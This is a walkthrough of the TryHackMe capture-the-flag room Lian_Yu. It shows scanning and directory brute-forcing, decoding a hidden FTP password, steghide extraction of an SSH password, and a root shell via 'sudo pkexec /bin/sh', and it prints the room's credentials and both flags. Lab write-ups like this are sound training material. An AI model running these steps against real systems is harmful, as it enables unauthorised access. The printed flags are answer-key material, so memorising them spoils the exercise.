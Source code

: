 # Lian_Yu - TryHackme Writeup Walkthrough

Room link : https://tryhackme.com/room/lianyu


# 1. Scanning the IP
  
  ```bash
  nmap -sC -sV 10.10.228.22 
```
  
  ![1](https://user-images.githubusercontent.com/119054834/204704431-03aa0bc5-a557-45db-be3a-bf06c28897cb.png)

```bash
Ports found ---
port 21/tcp - FTP - (vsftpd 3.0.2)
port 22/tcp - SSH - (OpenSSH 6.7p1)
port 80/tcp - HTTP - (Apache httpd)
port 111/tcp - RPC - (rpcbind) 
```

# 2. Enumeration

```bash
Visit the IP 
```
![ipvisit](https://user-images.githubusercontent.com/119054834/204705444-427b5bd9-cf36-4f4c-b4d7-aff2af9cd883.png)
  ```bash
Now run gobuster for hidden Directories.

gobuster dir -u http://10.10.228.22/ -w/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```
![hidden dr](https://user-images.githubusercontent.com/119054834/204705829-a864fe7c-5d5a-41c3-9633-4c4911aadc30.png)
```bash
Found a directory : /island
```
```bash
Now go to the browser and serarch http://10.10.228.22/island
```

![highligj](https://user-images.githubusercontent.com/119054834/204706876-b704c5ba-2cc8-42b3-8996-5431943e365e.png)

![gottheword](https://user-images.githubusercontent.com/119054834/204706887-57e0d78d-d11a-4383-aa2f-67ce57c4a86c.png)

```bash
Found out the Code Word by highlighting the page text or viewing the page source.
Code Word -  'vigilante' - (this is our FTP username)
```

```bash
Again run gobuster on /island directory to discover a different directory.
```
```bash
gobuster dir -u http://10.10.228.22/island -w/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```
![2100](https://user-images.githubusercontent.com/119054834/204708983-f9f739b5-3547-4520-a4a7-9aa0f4c571f7.png)

```bash
Here we found another directory : /2100
```

```bash
Now doing the same again go to the browser and serarch http://10.10.228.22/island/2100
```
![pgsource](https://user-images.githubusercontent.com/119054834/204710087-412a785a-bcb9-4911-9ff6-3a227ac88d6f.png)

```bash
View the page source -- 
```
![ticket](https://user-images.githubusercontent.com/119054834/204710197-498e8a6b-9dfb-4560-a73d-552b80ba94db.png)

```bash
Here it says there is a file with a '.ticket' extension.
```
```bash
Now again run gobuster o look for files with a '.ticket' extension.

gobuster dir --url 10.10.228.22/island/2100 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .ticket 
```
![green ticket](https://user-images.githubusercontent.com/119054834/204712070-d4d4d78d-b2e3-469b-9aba-5c60d55f9896.png)

```bash
Found another director : /green_arrow.ticket
```
```bash 
Again going to the browser search http://10.10.228.22/island/2100/green_arrow.ticket.
```
![rty](https://user-images.githubusercontent.com/119054834/204712578-aa367484-238c-44bf-ba96-ebdc69cd0202.png)

```bash
Seems we found an encryption : 'RTy8yhBQdscX' .  So now lets try to decode it ---

Go to https://gchq.github.io/CyberChef/

Use 'FromBase58' to decode it.
```
![hash](https://user-images.githubusercontent.com/119054834/204713677-f62752e5-e6f0-4133-a829-2134dac5a3b2.png)

```bash
Seems like we have cracked it : '!#th3h00d' - This is the FTP Password.
```

# 3. Now the FTP Login

```bash
Now as we have the username and passowrd ---
Username - vigilante
password -!#th3h00d

We can log in to the FTP service - 
```
![img files](https://user-images.githubusercontent.com/119054834/204716038-9301adf5-77a7-4c40-bfbf-ccaed5680bf4.png)

```bash
We got two users: 'vigilante' and 'slade' .
Also found 3 image files in the server. Download them in you system --- Follow the down commands to download the files -- 
```
![download](https://user-images.githubusercontent.com/119054834/204720485-509a69d7-98d2-419b-a0db-559180554bfb.png)

```bash
Now view the image files and we see that 'Leave.me.alone.png' is not opening.
Also the exiftool shows 'File Format error'
```
![pics](https://user-images.githubusercontent.com/119054834/204725099-ee18de71-fe4a-4b75-97b9-8e7b131326e9.png)
![exiftool](https://user-images.githubusercontent.com/119054834/204725349-fddd169c-bf7a-43cb-a4dd-3b2ef3a9237e.png)

```bash
Checking the header file of the image we found that it is actually wrong there.
```
![change](https://user-images.githubusercontent.com/119054834/204731008-cc259d3e-f9e9-489b-8096-1fe53cf3f2af.png)

```bash
The correct header -- https://en.wikipedia.org/wiki/Portable_Network_Graphics
```
![correct](https://user-images.githubusercontent.com/119054834/204731135-e25be51b-ff4f-4182-839e-b00d892480e6.png)

```bash
Now lets change it -- 
```
![nowcorrect](https://user-images.githubusercontent.com/119054834/204731235-953dc235-9bd4-4a59-8301-743468b26887.png)

```bash
Now you can open the image file Here you got a password : 'password' 
```
![leaveme](https://user-images.githubusercontent.com/119054834/204734956-d1601a47-f823-4202-a206-e39b937150ad.png)

```bash
Now lets use steghide to extract any hidden files within the other image files.
```
```bash
steghide extract -sf aa.jpg
```
![extr](https://user-images.githubusercontent.com/119054834/204743926-86e6f2ee-527f-4f6c-8cf9-33bb466b4d12.png)

```bash
Now using the password 'password' we got earlier successfully extracted the .jpg file to a ss.zip file. 
We found a  a 'passwd.txt' and a 'shado file' unzipping the ss.zip file. 
```
![m3ta](https://user-images.githubusercontent.com/119054834/204744274-0025a238-5b73-462f-8af3-0d27b94f0b46.png)

```bash
Now cat 'shado' file and you get a password : 'M3tahuman' -- (ssh password)
```
![mt](https://user-images.githubusercontent.com/119054834/204745041-4fae5e35-7b71-4ab5-9b91-2b037dc0faf8.png)

# SSH Login

```bash
Now as we have got the ssh password we can now login -- 
User - slade 
password - M3tahuman
```
```bash
ssh slade@10.10.228.22   
```
![slade](https://user-images.githubusercontent.com/119054834/204746967-0dee761b-e105-4eb7-8160-52b84136945f.png)

```bash
Now that you're logged in search the user.txt flag --
```
```bash
slade@LianYu:~$ ls
user.txt
```
![user](https://user-images.githubusercontent.com/119054834/204747894-2d00d43a-79de-4ef6-9a74-760b325836e8.png)

```bash
user.txt - 'THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}'
```

# 4. Root Privilege Escalation

```bash
To find which commands we can run with root privileges we can run: ---
```
```bash
sudo -l
```
![slade2](https://user-images.githubusercontent.com/119054834/204750224-9ce2ae79-8a5a-4ab0-bc02-44d43f8c7978.png)

```bash
After running sudo -l , it will again ask for slade password -- use the same password - 'M3tahuman'.


Now You see it says we can run the 'pkexec' with root privileges ---- So now we can run run '/bin/sh' program as root & get the root access.
```
```bash
sudo pkexec /bin/sh
```
![root](https://user-images.githubusercontent.com/119054834/204752313-4153109a-d8bb-4191-9ad8-cb91a8d4ecd5.png)

```bash
root.txt - 'THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}'
```

```bash
Submit the flags
```

I hope this was helpful.

thanks.
